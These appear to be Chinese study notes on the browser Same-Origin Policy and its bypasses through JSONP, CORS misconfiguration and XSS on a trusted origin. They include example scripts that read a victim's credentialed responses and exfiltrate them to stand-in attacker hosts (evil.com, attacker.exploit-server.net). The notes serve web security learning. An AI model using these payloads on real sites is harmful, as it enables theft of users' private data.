 # 一、自我理解

### 1. SOP的作用

```js
<!-- 页面部署在 https://evil.com -->
<!DOCTYPE html>
<html>
<body>
  <script>
    // 攻击者试图通过 JS 发请求，读取 bank.com 的用户数据
    fetch("https://bank.com/account/info", {
      credentials: "include" // 自动携带受害者登录的 Cookie
    })
      .then(res => res.text())
      .then(data => {
        // 拿到银行页面的响应数据
        fetch("https://evil.com/collect?leak=" + encodeURIComponent(data));
      });
  </script>
</body>
</html>
```

当受害者访问 `evil.com` 页面时，浏览器执行如下逻辑：

1. `fetch("https://bank.com/account/info")` 会发起跨站请求；
2. 浏览器**确实会发送请求**，并自动带上 `bank.com` 的 Cookie（如果 `credentials: "include"`）；
3. 但是浏览器发现这个请求是**跨源的**（`evil.com` → `bank.com`），**并且响应没有 CORS 允许**；
4. 所以，虽然响应回来了，浏览器会在 **JavaScript 层面“阻止访问响应内容”**；
5. 攻击者的 `res.text()` 永远无法读取数据，`data` 是空的，**窃取失败**！

#### 总结：

	1. 防读不防发
	1. 作用对象：不同主机名/不同端口/不同协议

### 2. 绕过SOP------JSONP

SOP只对fetch、xmlhttprequest等请求起作用，对于纯script不起作用

```js
<script src="https://victim.com/api/userinfo?callback=evilCallback"></script>
<script>
  function evilCallback(data) {
    sendToAttacker(data);
  }
</script>
```

前提：

​	但**它不能读响应内容**，除非返回的是 JS 格式的可执行代码（如 JSONP）、application/javascript

```js
evilCallback({"username": "admin"});
```

### 3. 绕过SOP--------CORS

CORS是SOP的放行机制：如果放行过宽（配置错误），则可利用饶过SOP

#### 一、工作原理

##### 简单请求：

1. GET、HEAD、POST请求
2. application/x-www-form-urlencoded`、`multipart/form-data`、`text/plain
3. 没有自定义请求头

如果响应没有：

```
GET /api/info HTTP/1.1
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
```

那么浏览器就不会读取，响应内容（对CSRF无影响）

##### 复杂请求：

1. 简单请求相反

Preflight机制：Options请求

如果响应没有：

```
OPTIONS /api/transfer HTTP/1.1
Origin: https://evil.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-Custom-Header, Content-Type


HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Methods: POST
Access-Control-Allow-Headers: X-Custom-Header, Content-Type
```

则浏览器直接报错，**不发送真实请求**

注意：

​	**当有 `Access-Control-Allow-Credentials: true` 时，Access-Control-Allow-Origin不能是 `\*`，否则浏览器会拦截响应。**

#### 二、可能的配置错误

##### 1. 信任Origin：null

注意：

​	需要使用iframe，sand-box，才能发送null源

##### 2. 回显源

发送什么源，返回什么源

```
Origin: https://evil.com

Access-Control-Allow-Origin: https://evil.com
```

##### 3. 利用XSS在信任的Origin上发送

假设：

- 目标主站是：`https://victim.com`
- 它的某个接口：`https://victim.com/accountDetails` 会返回敏感信息，并设置了 CORS：

```
http复制编辑Access-Control-Allow-Origin: https://trusted-but-xss.com
Access-Control-Allow-Credentials: true
```

- 而 `https://trusted-but-xss.com` 是目标的某个子域或合作方，被目标服务器错误信任，但**这个站点上你找到了 XSS**。

```js
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    // 将获取到的数据 exfiltrate 到攻击者的收集服务器
    fetch("https://attacker.exploit-server.net/log?data=" + encodeURIComponent(this.responseText));
  };
  req.open("GET", "https://victim.com/accountDetails", true);
  req.withCredentials = true;
  req.send();
</script>
```

